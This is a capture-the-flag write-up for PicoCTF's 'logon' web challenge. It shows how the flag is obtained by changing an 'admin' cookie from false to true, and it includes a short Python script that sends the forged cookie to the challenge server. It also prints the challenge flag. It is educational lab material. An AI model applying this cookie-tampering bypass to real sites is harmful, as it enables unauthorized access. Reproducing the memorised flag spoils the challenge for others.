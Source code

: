 # Header
* Source: PicoCTF
* Link: [PicoCTF.org](https://picoctf.org/)
* Challenge: logon
* Category: Web Exploitation
* Points: 100
* Date: 05-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Problem:
![](./attachments/Pasted%20image%2020220405225559.png)

---
## Hints:
1. Hmm, it doesn't seem to check anyone's password, except for Joe's?

---
## Solution:
When we try to log in an Joe we get denied.

![](./attachments/Pasted%20image%2020220405230405.png)

When we try to log in with any other credentials, we succeeded but see no flag.

![](./attachments/Pasted%20image%2020220405230214.png)

Hmm.. Upon further inspection of the page we can see that we have a cookie called 'admin'.

![](./attachments/Pasted%20image%2020220405232948.png)

Its set to false, lets change that and refresh the page.

![](./attachments/Pasted%20image%2020220405233335.png)

We got the flag!

**Flag:** `picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}`

---
## Alternate solution:
Python solution:

>#!/usr/bin/python
>
>import requests
>import re
>
>params = {'user': 'A', 'password': 'A', 'submit': 'Sign In'}
>jar = {'admin': 'True', 'password': '', 'username': ''}
>
>r = requests.get('http://2018shell1.picoctf.com:37861/flag', data=params, cookies=jar)
>source = r.text
>print re.findall(r'(picoCTF\{.+\})', source)[0]


**Flag:** `picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}`

---
**Tags:** [[PicoCTF]] [[cookies]]
